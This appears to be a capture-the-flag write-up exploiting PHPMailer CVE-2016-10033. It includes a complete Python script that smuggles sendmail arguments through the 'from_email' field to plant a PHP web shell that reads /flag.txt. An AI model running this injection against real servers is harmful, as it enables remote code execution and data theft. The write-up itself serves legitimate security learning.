 # Letter Dispair

This machine was vulnerable to a [PHPMailer vulnerability - CVE-2016-10033](https://github.com/opsxcq/exploit-CVE-2016-10033). 
After reading through the soruce code once it googled for email vulnerabilities and this was the first one I found. 
A lot of things looked right at first glance, and when I saw that I could control the fifth `$additional_parameters` param sent to the `mail` 
function I decided to try and exploit it. 

The exploit was fairly straight forward. `from_email` sets the `$additional_parameters` param that we use to control where to write the log files to.
The file is written to `/var/www/html/exploit.php` which is a location that we're allowed to execute php files in. The payload then contains `<?php system('cat /flag.txt');?>`
which will be written to the php file and then parsed and executed when visiting the file. 


```python
import requests
import sys

host = "http://206.189.124.56:30753" # Host to attack
url = host + "/mailer.php" # Path tho the mail application
filename = "exploit.php"; # The name our uploaded file will get

data = {
        "from_email": "-OQueueDirectory=/tmp -X/var/www/html/" + filename, # Write logs to this dir.
        "from_name": "", # important - must be empty
        "subject": "<?php system('cat /flag.txt');?>", # Payload
        "email_body": "What ever",
        "email_list": "foo@bar.com"
}

res1 = requests.post(url,data=data, files=dict(foo='bar')) # files=dict to force multipart/form-data

if res1.status_code != 200:
    print("Explpoit failed Status Code - ", res1.status_code)
    sys.exit()

res2 = requests.get(host+"/"+filename)

flagIndex = -1
flagStopIndex = -1
if res2.status_code == 200:
    flagIndex = res2.text.find("HTB{")
    flagStopIndex = res2.text.find("}", flagIndex)

if flagIndex > -1:
    print("Found flag - ", res2.text[flagIndex:flagStopIndex+1])
    print("URL-  " + host + "/" + filename)
else:
    print("no flag")
```
